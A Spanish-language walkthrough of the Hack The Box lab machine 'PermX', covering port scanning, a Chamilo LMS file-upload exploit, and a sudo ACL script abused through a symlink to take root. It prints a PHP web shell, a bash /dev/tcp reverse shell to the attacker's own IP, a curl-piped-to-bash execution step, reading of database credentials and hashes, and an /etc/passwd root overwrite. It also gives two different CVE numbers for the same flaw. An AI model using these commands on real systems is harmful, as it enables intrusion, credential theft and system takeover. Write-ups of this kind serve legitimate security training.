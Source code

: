 ```yaml
---
category: Hack The Box
tags:
  - eJPT
  - eWPT
title: Machine Permx
comments: true
image: /assets/img/machines/permx/permxbanner.jpeg
---
```

# Introducción

`PermX` es una máquina Linux de dificultad fácil con un sistema de gestión de aprendizaje vulnerable a la carga de archivos sin restricciones a través de [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220). Esta vulnerabilidad se aprovecha para establecerse en la máquina. Al enumerarla, se revelan las credenciales que permiten el acceso SSH. Una configuración incorrecta de `sudo` se explota para obtener un shell `root`.

### Skills

- Chamilo LMS Exploitation - Unauthenticated Command Injection (CVE-2023-31803) (RCE)
- Subdomain Enumeration
- Information Leakage
- Abusing Sudoers - Custom Bash Script (playing with setfacl) (Privilege Escalation)

# Enumeración

```bash
nmap -sCV -p22,80 10.10.11.23

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-29 22:12 -04
Nmap scan report for 10.10.11.23
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.43 seconds
```

### Puertos

- 22 ----> OpenSSH 8.9P1 Ubuntu 3Ubuntu0.10
- 80 ----> http Apache httpd 2.4.52


# Chamilo LMS Exploitation

#### rce.php

Este archivo PHP permite la ejecución remota de comandos en el sistema:

```php
<?php
  system($_GET['cmd']);
?>
```

Subida del archivo rce.php mediante `curl`

```bash
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

lanza consulta si se ha subido 
```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

#### index.html

Este script de Bash abre una conexión desde la víctima hacia `<IP PROPIA>` en el puerto `443`.

```bash
#!/bin/bash
bash -i >& /dev/tcp/<IP PROPIA>/443 0>&1
```

#### Servidor HTTP con Python

```bash
python3 -m http.server 80
```

#### Ejecución de código en la víctima con `curl`

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php?cmd=curl+<IP PROPIA>|bash'
```

#### Escucha de conexión con `nc` (Netcat)

```bash
nc -nlvp 443
```


# Information Leakage

#### acceso usuario mtz

Este archivo contiene la configuración de la aplicación web **Chamilo** (un LMS o sistema de gestión de aprendizaje).
```bash
www-data@permx:/var/www/chamilo$ cat ./app/config/configuration.php | less -S
```

```shell
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

```bash
www-data@permx:/var/www/chamilo$ mysql -u chamilo -p
```

```shell
MariaDB [(none)]> show databases;
MariaDB [(none)]> use chamilo;
MariaDB [(none)]> show tables;
MariaDB [(none)]> describe user;
MariaDB [(none)]> select username,password from user;
```
```
---------------------------------------------------------------------------
| username | password                                                     |
---------------------------------------------------------------------------
| admin    | $2y$04$1Ddsofn9m0aa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra | 
| anon     | $2y$04$wyjp2UVTeiD/jF40doYDquf4e70Wi6a3sohKRDe80IHAyihX0ujdS |
---------------------------------------------------------------------------
```

```bash
www-data@permx:/var/www/chamilo$ su mtz
password:
mtz@permx:/var/www/chamilo$ cd
mtz@permx:~$ cat user.txt
```

# Abusing Sudoers - Custom Bash Script (playing with setfacl) (Privilege Escalation)

El script `/opt/acl.sh` permite asignar permisos a archivos dentro de `/home/mtz/` utilizando **ACLs (Access Control Lists)** en Linux. Recibe tres parámetros: usuario, perm y target, validando que se proporcionen correctamente. Solo permite modificar archivos dentro de `/home/mtz/` y bloquea rutas con `..` para evitar accesos no autorizados. Además, verifica que el archivo exista antes de aplicar los permisos con `setfacl`, ejecutándolo con `sudo`. Si no se cumplen estas condiciones, el script muestra mensajes de error y finaliza la ejecución.

```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
	/usr/bin/echo "Usage: $0 user perm file"
	 exit 1 
fi 

user="$1" 
perm="$2" 
target="$3" 

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
	/usr/bin/echo "Access denied."
	 exit 1
fi 

# Check if the path is a file
if [ ! -f "$target" ]; then
	/usr/bin/echo "Target must be a file." 
	exit 1 
fi 

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

**enlace simbólico** con el comando:
```bash
mtz@permx:~$ ln -s /etc/passwd passwd
```
Esto genera un archivo `passwd` en `/home/mtz/` que en realidad apunta a `/etc/passwd`, el archivo del sistema que almacena información de usuarios.

luego, ejecuta:
```bash
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd 
```
El script `/opt/acl.sh` verifica que el archivo esté dentro de `/home/mtz/` (lo cual el enlace simbólico cumple) y luego usa `setfacl` para asignar permisos `rwx` (lectura, escritura y ejecución) al usuario `mtz` sobre `passwd`. 

Generación de una contraseña cifrada:
```bash
mtz@permx:~$ openssl passwd
password: hola
verifying - Password: hola
```
```
$1$y4lisSqP$4rk6FNJ/Xsb/myhjeS6Lk.
```
Este comando solicita una contraseña y la cifra utilizando el algoritmo predeterminado (normalmente MD5, SHA-256 o SHA-512, según la configuración del sistema).


Edición del archivo `passwd`:
```bash
mtz@permx:~$ nano passwd
```
```
root:$1$y4lisSqP$4rk6FNJ/Xsb/myhjeS6Lk.:0:0:root:/root:/bin/bash
```
Esto cambia la contraseña de `root` a la generada con `openssl passwd`.


```bash
mtz@permx:~$ su root
password: hola
root@permx:~$ cd /root/
root@permx:~$ cat root.txt
```




